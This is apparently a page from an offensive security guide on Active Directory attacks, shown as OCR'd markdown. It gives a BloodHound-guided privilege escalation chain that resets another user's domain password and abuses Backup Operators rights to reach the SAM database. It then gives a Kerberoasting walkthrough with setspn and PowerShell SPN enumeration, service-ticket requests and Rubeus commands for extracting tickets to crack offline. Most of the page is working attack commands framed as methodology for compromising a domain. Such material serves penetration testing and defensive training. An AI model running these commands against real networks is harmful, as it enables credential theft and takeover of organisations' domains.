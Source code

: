 ```bash
# BloodHound shows: USER01 has GenericAll on USER02
# USER02 is member of "Backup Operators"

# Step 1: Reset target user password
net user USER02 NewPassword123! /domain

# Step 2: Authenticate as target user
runas /user:domain\USER02 cmd.exe

# Step 3: Leverage group membership privileges
# Backup Operators can backup/restore files including SAM database

# Why BloodHound-guided attacks are effective:
# - Based on actual AD relationships and permissions
# - Identifies multi-hop attack chains
# - Reveals non-obvious privilege escalation paths
# - Provides clear step-by-step attack methodology
```

## Kerberos-Based Attacks

### **Kerberoasting**

**What Kerberoasting is:** Attack technique that targets service accounts with Service Principal Names (SPNs). Requests service tickets encrypted with service account passwords, then cracks offline.

**Why Kerberoasting is effective:** Service accounts often have weak passwords, run with high privileges, and password changes are infrequent. Attack is difficult to detect and can be performed by any domain user.

**When to use Kerberoasting:** Early in AD compromise for credential acquisition, when needing higher privileges, or when other attack vectors are blocked.

```bash
# Kerberoasting methodology

# Step 1: SPN enumeration
setspn -T domain.local -Q */*                # List all SPNs in domain
# Look for interesting services:
# - MSSQLSvc (SQL Server service accounts)
# - HTTP (Web application service accounts)  
# - SAPService (SAP application accounts)
# - FIMService (Forefront Identity Manager)

# PowerShell SPN enumeration
([adsisearcher]"(&(objectCategory=person)(objectClass=user)(servicePrincipalName=*))").FindAll() | ForEach-Object {
    Write-Host "User: " $_.Properties.samaccountname
    Write-Host "SPN: " $_.Properties.serviceprincipalname
    Write-Host "---"
}

# Step 2: Request service tickets
# Method 1: Using built-in Windows tools
Add-Type -AssemblyName System.IdentityModel
New-Object System.IdentityModel.Tokens.KerberosRequestorSecurityToken -ArgumentList "MSSQLSvc/sql01.domain.local:1433"

# Method 2: Using Rubeus
.\Rubeus.exe kerberoast                      # Kerberoast all SPNs
.\Rubeus.exe kerberoast /user:svcSQL         # Target specific user
.\Rubeus.exe kerberoast /domain:domain.local # Specify domain
.\Rubeus.exe kerberoast /outfile:tickets.txt # Save to file

```